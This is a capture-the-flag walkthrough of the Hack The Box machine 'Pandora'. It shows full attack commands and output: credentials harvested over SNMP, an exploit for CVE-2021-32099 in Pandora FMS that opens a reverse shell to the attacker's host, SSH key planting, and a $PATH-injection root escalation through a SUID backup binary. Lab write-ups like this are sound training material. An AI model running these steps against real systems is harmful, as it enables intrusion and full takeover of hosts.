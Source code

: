 # Target
| Category          | Details                                                |
|-------------------|--------------------------------------------------------|
| 📝 **Name**       | [Pandora](https://app.hackthebox.com/machines/Pandora) |  
| 🏷 **Type**       | HTB Machine                                            |
| 🖥 **OS**         | Linux                                                  |
| 🎯 **Difficulty** | Easy                                                   |
| 📁 **Tags**       | SNMP, Pandora FMS, CVE-2021-32099, $PATH injection     |

# Scan

## TCP
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## UDP
```
161/udp open   snmp
```

# Attack path
1. [Gain initial foothold using credentials discovered in processes list obtained with `snmp-check`](#gain-initial-foothold-using-credentials-discovered-in-processes-list-obtained-with-snmp-check)
2. [Escalate to `matt` user using SQL injection in Pandora FMS v7.0NG.742 (CVE-2021-32099)](#escalate-to-matt-user-using-sql-injection-in-pandora-fms-v70ng742-cve-2021-32099)
3. [Escalate to `root` user using $PATH injection vulnerability in backup script](#escalate-to-root-user-using-path-injection-vulnerability-in-backup-script)

### Gain initial foothold using credentials discovered in processes list obtained with `snmp-check`

#### Enumerate target using open SNMP port with `snmp-check`
```
┌──(magicrc㉿perun)-[~/attack/HTB Pandora]
└─$ snmp-check $TARGET
<SNIP>
[*] Processes:
<SNIP>
  1009                  runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
<SNIP>
```

#### Use discovered credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Pandora]
└─$ ssh daniel@$TARGET
daniel@10.129.250.91's password: 
<SNIP>
daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)
```

### Escalate to `matt` user using SQL injection in Pandora FMS v7.0NG.742 ([CVE-2021-32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099))

#### Discover Pandora FMS v7.0NG.742 running on localhost as `matt` user
```
daniel@pandora:~$ cat /etc/apache2/sites-enabled/pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

#### Setup SSH tunnel to local Pandora FMS port using discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Pandora]
└─$ ssh -L 80:localhost:80 -Nf daniel@$TARGET
daniel@10.129.183.198's password:
```

#### Exploit CVE-2021-32099 to gain initial foothold using reverse shell connection
```
LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
LPORT=4444
git clone https://github.com/magicrc/CVE-2021-32099.git -q && cd CVE-2021-32099 && \
python3 -m venv .venv && source .venv/bin/activate && pip install -r requirements.txt && \
python3 ./CVE-2021-32099.py --target http://localhost --lhost $LHOST --lport $LPORT
<SNIP>
[+] Bypassing authentication...OK
[+] Uploading reverse shell...OK
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.129.175.14 on port 55234
[+] Executing reverse shell...
[*] Switching to interactive mode
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 07:42:51 up 12 min,  0 users,  load average: 0.08, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(matt) gid=1000(matt) groups=1000(matt)
/bin/sh: 0: can't access tty; job control turned off
$  
```

#### Upgrade reverse shell connection to SSH using private key
```
$ ssh-keygen -t rsa -b 4096 -f /home/matt/.ssh/id_rsa -N "" && \
cat /home/matt/.ssh/id_rsa.pub >> /home/matt/.ssh/authorized_keys && \
chmod 700 /home/matt/.ssh && chmod 600 /home/matt/.ssh/* &&
cat /home/matt/.ssh/id_rsa
Generating public/private rsa key pair.
Created directory '/home/matt/.ssh'.
Your identification has been saved in /home/matt/.ssh/id_rsa
Your public key has been saved in /home/matt/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:rfQQX/UWoXC2Wlxzxv+E+Cg30yS6WhWKNkF7cqV5lZk matt@pandora
The key's randomart image is:
+---[RSA 4096]----+
|        .  ..ooX+|
|       . . +=oEo=|
|        = = +* .+|
|         X +=.o.o|
|        S +o.* ..|
|       o =o.= o .|
|        . o+ o   |
|         ..      |
|        ..       |
+----[SHA256]-----+
-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
-----END OPENSSH PRIVATE KEY-----
```

Copy & paste generated key to attack machine and use it to connect.
```
┌──(magicrc㉿perun)-[~/attack/HTB Pandora]
└─$ chmod 600 id_rsa && ssh matt@$TARGET -i id_rsa 
<SNIP>
matt@pandora:~$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```

### Escalate to `root` user using $PATH injection vulnerability in backup script

#### Locate binary with SUID flag
Binary has been found with `linpeas`.
```
$ ls -l /usr/bin/pandora_backup
-rwsr-x--- 1 root matt 16816 Dec  3  2021 /usr/bin/pandora_backup
```

#### Exfiltrate binary to analyze its code
```
┌──(magicrc㉿perun)-[~/attack/HTB Pandora]
└─$ scp -i id_rsa matt@$TARGET:/usr/bin/pandora_backup .
```

#### Analyze binary using `binaryninja`
![Binary Ninja analysis](images/binaryninja_pandora_backup.png)

Analysis shows that relative path to `tar` is being used, and thus we could inject its malicious version on $PATH.
```
system("tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*")
```

#### Spawn root shell with malicious `tar` injected into $PATH 
```
matt@pandora:~$ echo "/bin/cp /bin/bash /tmp/root_shell && /bin/chmod +s /tmp/root_shell" > /home/matt/tar && \
chmod +x /home/matt/tar && \
PATH=/home/matt:$PATH && \
/usr/bin/pandora_backup && \
/tmp/root_shell -p
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program!
root_shell-5.0# id
uid=1000(matt) gid=1000(matt) euid=0(root) groups=1000(matt)
```
